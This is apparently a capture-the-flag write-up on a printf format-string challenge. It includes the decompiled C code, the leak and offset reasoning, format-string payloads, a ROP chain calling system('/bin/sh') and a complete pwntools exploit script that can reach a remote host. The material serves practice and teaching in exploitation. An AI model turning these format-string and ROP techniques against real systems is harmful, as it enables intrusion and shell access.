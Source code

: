 ```yaml
---
title: "WU 1"
date: 2025-05-07
---
```

O TITE TUTE TATI TIBI TANTA TYRANNE TULISTI
# PrintF

In this challenge, I exploit a `printf` vulnerability. The program leaks a stack address and I use it to calculate the location of `printf`’s return address on the stack. By overwriting its least significant byte, I force the program to return into and earlier part of `main` instead of exiting. Like that I gave me another round to exploit the `printf` vulnerability while having leaks for PIE and libc. Finally, I send a payload that replaces again the `printf` return address but this time with a ROP chain calling `system("/bin/sh")`.

## PrintF code

```c
void main(void)
{
    long i;
    char *pBuf;
    long in_FS_OFFSET;
    int var;
    char buf[520];
    long canary;

    canary = *(long *)(in_FS_OFFSET + 0x28);
    var = 1;
    pBuf = buf;
    for (i = 64; i != 0; i--)
    {   //set to 0 the first 512 bytes of buf
        memset(pBuf, 0, 8);
        pBuf += 8;
    }
    puts("Easy peasy printf, don't you think?");
    printf("I feel generous so have this: %p", &var);
    puts("Show me you've got!");
    printf("> ");
    read(0, buf, 512);
    puts("Here we go!!");
    printf(buf);
    /* WARNING: Subroutine does not return */
    exit(0);
}
```

Compiled with `canary`, `FULL RELRO`, `NX`, `PIE` enabled.

---

## 1. Initial Leak & Offset Calculation

1. **Leak the stack pointer**: The program prints a stack address via `printf("...this: %p", &var)`.
2. **Find `printf_ret`**: In GDB, I saw that the saved `rsp` value when `printf` returns is at `stack_leak - 0x14` and it contains the address of `main` right before the `exit(0)`.

```py
# In exploit():
p.recvuntil(b"this: 0x")
stack_leak = int(p.recvuntil(b"\n"), 16)
printf_ret  = stack_leak - 0x14
```

---

## 2. First Format-String Payload (Loop Back)

My goal is to overwrite the least significant byte of `printf_ret` so `printf` returns to an earlier part of `main`, letting me leak PIE and libc addresses and giving me the possibility to exploit the fsb again.

```python
payload = (
    b"dummy420"      # needed for writing the right byte
  + b"||%79$p|"      # leak PIE
  + b"||%75$p|"      # leak libc
  + b"|%12$hhn"      # write 1 byte into printf_ret
  + p64(printf_ret)
)
```

- `%12$hhn` writes the number of printed bytes so far (it is `42`... nice) into the `printf` return address.

After this, the program loops and prints:

```
dummy420||0x<pie_leak>|||0x<libc_leak>|...
```

---

## 3. Compute PIE & libc Bases

- **PIE base** = `pie_leak - 0x1211`
- **LIBC base** = `libc_leak - 0x2A1CA`

```python
pie_base     = pie_leak    - 0x1211
libc.address = libc_leak   - 0x2A1CA
```

---

## 4. Second Payload: ROP Chain

With base addresses known, I build a ROP chain:

1. **Gadgets**:

   - `pop rdi; ret` at `libc + 0x10f75b`
   - `sleep; ret` at `libc + 0x4c161` (stack alignment)

2. **Arguments**:

   - Address of `/bin/sh` in libc
   - `system` function address

I lay this out starting at `printf_ret`:

```python
pop_rdi = libc.address + 0x10f75b
ret   = libc.address + 0x4c161
binsh   = next(libc.search(b"/bin/sh"))
system  = libc.sym['system']

payload2 = fmtstr_payload(
    8,
    {
        printf_ret        : pop_rdi,
        printf_ret + 0x8  : binsh,
        printf_ret + 0x10 : ret,
        printf_ret + 0x18 : system,
    }
)
```

When `printf` returns, it jumps into my ROP chain and runs `system("/bin/sh")`.

---

## 5. Full Exploit Script

```python
#!python

from pwn import *
import pwn
from sys import argv
from os import getcwd
from time import sleep

speed = 0#.5

e = ELF("./printf_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = e
context.terminal = ["kitty", "@", "new-window", "--cwd", getcwd()]
context.gdbinit = "/etc/profiles/per-user/darktar/share/pwndbg/gdbinit.py"

r: process = None

u64 = lambda d: pwn.u64(d.ljust(8, b"\0")[:8])
u32 = lambda d: pwn.u32(d.ljust(4, b"\0")[:4])
u16 = lambda d: pwn.u16(d.ljust(2, b"\0")[:2])
sla = lambda a, b: r.sendlineafter(a, b)
sa = lambda a, b: r.sendafter(a, b)
sl = lambda a: (sleep(speed), r.sendline(a))
s = lambda a: (sleep(speed), r.send(a))
recv = lambda: (sleep(speed), r.recv())[1]
recvn = lambda a: (sleep(speed), r.recvn(a))[1]
recvu = lambda a, b=True: (sleep(speed), r.recvuntil(a, b))[1]
clean = lambda: r.clean()
success = lambda a: log.success(a)
fail = lambda a: log.failure(a)
info = lambda a: log.info(a)

gdbscript = '''
    b main
    continue
'''

def conn():
    global r
    if len(argv) > 1:
        if argv[1] == "gdb":
            r = gdb.debug([e.path], gdbscript=gdbscript)
        else:
            ip, port = argv[1], argv[2]
            r = remote(ip, port)
    else:
        r = e.process()



def exploit():
    recvu(b"this: 0x")
    stack_leak = int(recvu(b"\n"),16)
    info(hex(stack_leak))
    printf_ret = stack_leak - 0x14
    payload = b"dummy420"+b"||%79$p|"+b"||%75$p|"+b"|%12$hhn"+p64(printf_ret)
    info(payload)
    sl(payload)
    recvu(b"|0x")
    pie_base = int(recvu(b"|"),16) - 0x1211
    info(hex(pie_base))
    recvu(b"|0x")
    libc.address = int(recvu(b"|"),16) - 0x2A1CA
    info(hex(libc.address))
    pop_rdi = libc.address + 0x10f75b
    ret = libc.address + 0x4c161
    payload = fmtstr_payload(8,
        {
        printf_ret      : pop_rdi,
        printf_ret+0x8  : next(libc.search('/bin/sh')),
        printf_ret+0x10 : ret, #fix misalignment
        printf_ret+0x18 : libc.sym['system'],
        }
    )
    recvu(b"you've got!")
    sl(payload)
    print("good luck pwning :)")



conn()
exploit()

# good luck pwning :)
r.interactive()
```

_good luck pwning :)_

